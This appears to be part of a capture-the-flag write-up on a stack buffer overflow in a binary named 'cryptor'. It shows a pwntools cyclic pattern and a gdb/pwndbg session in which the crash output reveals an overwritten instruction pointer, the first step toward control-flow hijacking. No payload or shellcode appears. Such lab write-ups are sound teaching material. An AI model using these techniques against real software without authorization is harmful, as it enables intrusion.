 ![Buffer Overflow 2](cryptor-buff2.png)

Here we are given the situation of writing 116 bytes into a 100 byte buffer, potentially causing an overflow. With this knowledge, let's test it dynamically.

Open `gdb ./cryptor` with [https://github.com/zachriggle/pwndbg](Pwndbg) enabled and throw a 116 byte string at crytor with a junk second string.

Create the 116 byte string using [https://github.com/binjitsu/binjitsu/](Binjitsu).

```
>>> from pwn import *
>>> cyclic(116)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaab'
```

Run the binary with our 116 byte string.

```
Loaded 53 commands.  Type pwndbg for a list.
Reading symbols from ./cryptor...(no debugging symbols found)...done.
Only available when running
pwn> r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaab zzzz
```

Watch as we get a fancy crash

```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[----------REGISTERS----------]
 EAX  0x0
 EBX  0x62616164 ('daab')
 ECX  0x0
 EDX  0x0
 EDI  0x636e652e ('.enc')
 ESI  0x0
 EBP  0x61616179 ('yaaa')
 ESP  0xffffcb08 <-- 'baab'
 EIP  0x6261617a ('zaab')
[----------BACKTRACE----------]
>  f 0 6261617a
   f 1 62616162
   f 2        0
Program received signal SIGSEGV
```
